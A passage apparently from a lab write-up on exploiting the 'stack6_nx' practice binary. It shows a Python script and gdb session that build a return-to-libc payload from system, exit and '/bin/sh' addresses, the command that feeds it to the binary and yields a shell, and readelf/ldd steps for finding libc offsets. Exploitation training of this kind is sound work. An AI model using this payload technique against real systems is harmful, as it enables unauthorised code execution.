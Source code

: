 ```py
f = open('/tmp/exploit', 'wb')
f.write(payload)
f.close()

print("Payload file is: /tmp/exploit")
print("You can try by using following command: '  (cat /tmp/exploit; cat) | ./stack6_nx'")
```

You can use the script from gdb by using the following command:
**source script.py**  (equivalent to running gdb -x script.py).

```
(gdb) source x.py 
Breakpoint 2 at 0x8048546: file stack6_nx.c, line 28.

Breakpoint 1, main (argc=1, argv=0xffffd1d4) at stack6_nx.c:28
warning: Source file is more recent than executable.
28	
system address: 0xf7e51e70
exit_ address: 0xf7e44f50
binsh_address: 0xf7f71fcc
Payload will be: 
offset + system_address + exit_address + binsh_address

Payload as a bytearray:
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp\x1e\xe5\xf7PO\xe4\xf7\xcc\x1f\xf7\xf7'
Payload file is: /tmp/exploit
You can try by using following command: '  (cat /tmp/exploit; cat) | ./stack6_nx '
```

```
$ (cat /tmp/exploit; cat) | ./stack6_nx
input path please: id
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp��AAAAAAAAAAAAp��PO�����id
id
uid=1000(a) gid=1000(a) groups=1000(a),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

#### 2.3 Improvements for The Solution

1. Checking only address space of **libc** instead of iterating a lot ('find &system,+9999999,"/bin/sh"').

**This is how it can be done by following commands:**

```
$ ldd ./stack6_nx | grep libc
	libc.so.6 => /lib32/libc.so.6 (0xf7e12000)

$ readelf -s /lib32/libc.so.6 | grep system
   243: 00118e50    73 FUNC    GLOBAL DEFAULT   12 svcerr_systemerr@@GLIBC_2.0
   620: 0003fe70    56 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
  1443: 0003fe70    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0

readelf -s /lib32/libc.so.6 | grep exit
$ readelf -s /lib32/libc.so.6 | grep exit
   111: 00033380    58 FUNC    GLOBAL DEFAULT   12 __cxa_at_quick_exit@@GLIBC_2.10
   139: 00032f50    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
   ...

Now finding "/bin/sh" from gdb:
(gdb) i proc map
process 13201
Mapped address spaces:
```